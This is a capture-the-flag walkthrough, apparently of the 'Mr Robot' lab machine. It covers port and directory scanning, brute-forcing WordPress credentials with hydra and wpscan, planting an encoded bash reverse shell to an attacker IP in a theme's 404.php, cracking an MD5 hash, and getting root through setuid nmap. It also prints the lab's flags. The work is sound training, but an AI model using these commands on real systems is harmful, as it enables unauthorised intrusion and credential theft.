## TL;DR

First we find flag1 inside `robots.txt`, at least the location of the flag. Then, we brute force credentials for `wordpress` login, based on minimized version of `fsocity.dic`. We login as `Elliot` and plant reverse shell. Then we go to `/home/robot` folder and crack the password that is hash found inside `password.raw-md5`.
We move to user `robot`, and then find that `/usr/local/bin/nmap` has setuid on, which gives us vector for privilege escalation.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```



```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 52:48:22:ec:68:78:33:78:06:7f:d3:ec:6e:47:ff:fc (RSA)
|   256 a7:a4:73:81:5b:36:24:39:1e:cd:b4:b9:ad:dc:f2:d4 (ECDSA)
|_  256 4c:3b:d3:8f:8a:a0:72:f8:59:2d:a9:cf:05:3e:2f:e4 (ED25519)
80/tcp  open  http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open  ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Find flag1 inside file included in robots.txt

We start with `ffuf`, to enumerate endpoints



As we can see, it detected `robots.txt`, and also multiple `wordpress` endpoints.

```bash
┌──(agonen㉿kali)-[~/thm/MrRobot]                                                                                                           13:04:31 [19/100]
└─$ ffuf -u "http://$target/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt                                   
                                                                                                                                                             
        /'___\  /'___\           /'___\                                                                                                                      
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                      
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                     
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                     
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                      
          \/_/    \/_/   \/___/    \/_/                                                                                                                      
                                                                                                                                                             
       v2.1.0-dev                                                                                                                                            
________________________________________________                                                                                                             
                                                                                                                                                             
 :: Method           : GET                                                                                                                                   
 :: URL              : http://10.10.202.112/FUZZ                                                                                                             
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt                                           
 :: Follow redirects : false                                                                                                                                 
 :: Calibration      : false                                                                                                                                 
 :: Timeout          : 10                                                                                                                                    
 :: Threads          : 40                                                                                                                                    
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

robots.txt              [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 99ms]
blog                    [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 97ms]
sitemap                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 103ms]
login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 120ms]
images                  [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 126ms]
rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 347ms]
video                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 93ms]
0                       [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 409ms]
feed                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 376ms]
image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 405ms]
atom                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 364ms]
wp-content              [Status: 301, Size: 240, Words: 14, Lines: 8, Duration: 94ms]
admin                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 93ms]
audio                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 96ms]
intro                   [Status: 200, Size: 516314, Words: 2076, Lines: 2028, Duration: 104ms]
wp-login                [Status: 200, Size: 2671, Words: 115, Lines: 53, Duration: 390ms]
```

First, let's check `robots.txt`:

```bash
┌──(agonen㉿kali)-[~/thm/MrRobot]
└─$ curl http://$target/robots.txt   
User-agent: *
fsocity.dic
key-1-of-3.txt
```



We can find the first flag at `http://10.10.202.112/key-1-of-3.txt`:
```bash
┌──(agonen㉿kali)-[~/thm/MrRobot]
└─$ curl http://$target/key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9
```


### Brute force login credentials for wordpress website using fsocity.dic

Inside `fsocity.dic` there is some dictionary that probably will be useful later.
We can see this dictionary is huge, 858610 words!
```bash
┌──(agonen㉿kali)-[~/thm/MrRobot]
└─$ wc -l fsocity.dic 
858160 fsocity.dic
```

Maybe this is some confusion, let's try to `sort` and then `uniq`:
```bash
┌──(agonen㉿kali)-[~/thm/MrRobot]
└─$ sort fsocity.dic| uniq | wc -l    
11451
``` 

Now we got only 11451 words, much less. We can brute force now to find usernames, just giving mocking password, to check when we don't get `Invalid username`.

```bash
┌──(agonen㉿kali)-[~/thm/MrRobot]
└─$ hydra -L sorted_uniq.txt -p password $target http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username" -I
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-11-16 14:45:06
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:11452/p:1), ~716 tries per task
[DATA] attacking http-post-form://10.10.202.112:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username

[STATUS] 1331.00 tries/min, 1331 tries in 00:01h, 10121 to do in 00:08h, 16 active
[STATUS] 1338.00 tries/min, 4014 tries in 00:03h, 7438 to do in 00:06h, 16 active
[80][http-post-form] host: 10.10.202.112   login: Elliot   password: password
[80][http-post-form] host: 10.10.202.112   login: ELLIOT   password: password
[80][http-post-form] host: 10.10.202.112   login: elliot   password: password
```

So, now we got username `Elliot`.



We need to brute force the password now, we can use `hydra` or use `wpscan`, which is faster

```bash
wpscan --url http://$target/ -U Elliot -P sorted_uniq.txt
```



Now we have these credentials:
```bash
Elliot:ER28-0652
```

### Get reverse shell using admin user at wordpress website

After login, we can see we got admin access, which means we can get our reverse shell.


We're gonna achieve reverse shell using `404.php` page, let's edit the source code of `404.php` here `http://10.10.202.112/wp-admin/theme-editor.php?file=404.php&theme=twentyfifteen`.

we'll insert this reverse shell payload from `penelope`
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash
```



Now, we can go to this page for example, `http://10.10.202.112/NotFound`, and activate the reverse shell.



### Crack robot user password hash from password.raw-md5

Inside `/home/robot` we can find 2 files, we can't read `key-2-of-3.txt`, however, we can read `password.raw-md5`.

```bash
daemon@ip-10-10-23-145:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 4 root  root  4096 Jun  2 18:14 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@ip-10-10-23-145:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
```



It looks like it contains some md5 hash, maybe the password for user `robot`, we can use [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash) for decrypting.



And we got the hash:
```bash
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
```

Now, let's try to `su` to `robot` with the password `abcdefghijklmnopqrstuvwxyz`.



It worked, we can read the flag:
```bash
robot@ip-10-10-23-145:~$ cat key-2-of-3.txt 
822c73956184f694993bede3eb39f959
```

### Privilege Escalation to Root 

When we scan for setuid binaries, we can find the binary `/usr/local/bin/nmap`, which is very interesting.

```bash
find / -user root -perm /4000 2>/dev/null
```



Using [https://gtfobins.github.io/gtfobins/nmap/](https://gtfobins.github.io/gtfobins/nmap/), I found this:
> nmap --interactive
nmap> !sh

And tried, maybe we'll get root shell.
```bash
robot@ip-10-10-23-145:~$ /usr/local/bin/nmap -interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
root@ip-10-10-23-145:~# id
uid=0(root) gid=0(root) groups=0(root),1002(robot)
root@ip-10-10-23-145:~# 
```



Now, we can grab the third key from the folder `/root`:
```bash
root@ip-10-10-23-145:/root# cat key-3-of-3.txt 
04787ddef27c3dee1ee161b21670b4e4
```
